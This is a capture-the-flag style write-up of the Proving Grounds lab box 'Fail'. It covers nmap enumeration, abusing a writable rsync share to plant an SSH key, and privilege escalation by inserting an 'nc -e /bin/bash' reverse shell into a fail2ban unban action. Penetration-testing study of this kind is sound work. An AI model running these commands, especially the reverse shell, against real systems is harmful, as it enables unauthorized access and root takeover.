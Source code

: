 ```yaml
---
title: Proving Grounds - Fail
date: 2022-09-18 12:00:00 -500 
categories: [Proving Grounds]
tags: [oscp,linux]
---
```


# Fail Overview

Machine Details:

|IP|Hostname|Operating System|
|---|---|---|
|192.168.61.126|Fail|Linux|

## Path to Exploitation
Fail is a relatively simple box provided on Proving Grounds that requires us to identify the rsync share and leverage it to gain access to the machine. From there take advantage of a script file that allows us to run commands at the root user. 

# Fail Enumeration

## Full Port Scan

```bash
nmap -p- -Pn -oA nmap/full-port --open 192.168.61.126
```

Results:

|Port|Service|
|--|--|
|22|ssh|
|873|rsync|

## Service Scan

|Port|Service|Version|
|--|--|--|
|22|ssh|OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)|
|873|rsync|(protocol version 31)|

## rsync Scans

```bash
nmap -sV --script rsync-list-modules -oA nmap/rsync-scan 192.168.61.126 873
```

Results:

We find a share

![RSync Share](/assets/ProvingGrounds/Fail/rsync-share.png)

# RSync
We can enumerate the share with the following command:

```bash
$ rsync -av --list-only rsync://192.168.61.126/fox
```

![Share Contents](/assets/ProvingGrounds/Fail/share-content.png)

We can also download the files with the following command:

```bash
$ rsync -av rsync://192.168.156.126/fox ./rsyn_shared
```

Testing file upload

```bash
$ touch test
$ rsync test 192.168.x.126::fox
$ rsync -av --list-only rsync://192.168.61.126/fox
```

![File Upload](/assets/ProvingGrounds/Fail/file-upload.png)

We have file upload capabilities to the share.

# Shell on Fail
We can create an SSH key pair and upload our public key to the host

![Keygen](/assets/ProvingGrounds/Fail/key-gen.png)

Create the authorized_keys file and upload it to the .ssh directory

![Upload Key](/assets/ProvingGrounds/Fail/key-upload.png)

SSH into the host as the fox user

![SSH](/assets/ProvingGrounds/Fail/ssh.png)

# Privilege Escalation
Modify the file to contain the following command on the actionunban command line:

```bash
nc -e /bin/bash 192.168.168.49.177 443
```

![Modify Command](/assets/ProvingGrounds/Fail/privesc-exploit.png)

Setup the nc listener and attempt several incorrect SSH attempts to trigger the command

![Execute the Exploit](/assets/ProvingGrounds/Fail/privesc-execute.png)

Now wait for the service to restart and execute the unban command. We will see that we caught a reverse shell running as root.

![Getting a Root Shell](/assets/ProvingGrounds/Fail/root-shell.png)
